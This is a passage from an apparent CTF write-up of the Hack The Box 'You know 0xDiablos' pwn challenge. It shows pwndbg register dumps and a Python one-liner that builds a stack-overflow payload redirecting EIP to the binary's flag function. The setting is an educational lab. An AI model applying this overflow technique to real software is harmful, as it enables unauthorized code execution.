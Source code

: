 Starting program\: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_flag  
You know who are 0xDiablos\:  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Breakpoint 1, 0x08049246 in flag ()LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA  
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0EBX  0x804c000 (_GLOBAL_OFFSET_TABLE_) --▸ 0x804bf10 (_DYNAMIC) ◂-- add    dword ptr [eax], eax  
ECX  0x0EDX  0xfbad2498EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */EBP  0xffffd01c ◂-- 'AAAA'  
ESP  0xffffcfc4 ◂-- 0x41414141 ('AAAA')  
EIP  0x8049246 (flag+100) ◂-- cmp    dword ptr [ebp + 8], 0xdeadbeef
{% endhighlight %}

As expected, the breakpoint at flag+100 was hit. Looking at ebp+0x8, it can be observed that it was not overwritten\:

{% highlight bash %}
pwndbg> x/x $ebp+0x8  
0xffffd024\:     0xffffd0f4
{% endhighlight %}

Upon looking at the first 16 bytes of the EBP register, an interesting circumstance can be noticed\:

{% highlight bash %}
pwndbg> x/4x $ebp  
0xffffd01c\:     0x41414141      0x00000000      0xffffd0f4      0xffffd0fc
{% endhighlight %}

At exactly $ebp, the junk bytes that are present in the malicious string can be seen. Following that is a succession of eight zeroes followed by the value of $ebp+0x8 and $ebp+0xc. This succession of zeroes is particularly interesting as it is not clear what it relates to. Modifying the malicious string by adding four B’s to the end of it and piping it into the program ,reveals an interesting behavior within the binary\:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $python -c "print 'A'*188 + '\\xe2\\x91\\x04\\x08'+'BBBB'" > eip_flag

pwndbg> r < eip_flag                                                                    
Starting program\: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_flag  
You know who are 0xDiablos\:                                                            
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAABBBB                          
  
Breakpoint 1, 0x08049246 in flag ()        LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA                                      
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0                                  EBX  0x804c000 (_GLOBAL_OFFSET_TABLE_) --▸ 0x804bf10 (_DYNAMIC) ◂-- add    dword ptr [eax], eax  
ECX  0x0                                  EDX  0xfbad2498                          EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */EBP  0xffffd01c ◂-- 'AAAABBBB'             ESP  0xffffcfc4 ◂-- 0x41414141 ('AAAA')    EIP  0x8049246 (flag+100) ◂-- cmp    dword ptr [ebp + 8], 0xdeadbeef
{% endhighlight %}
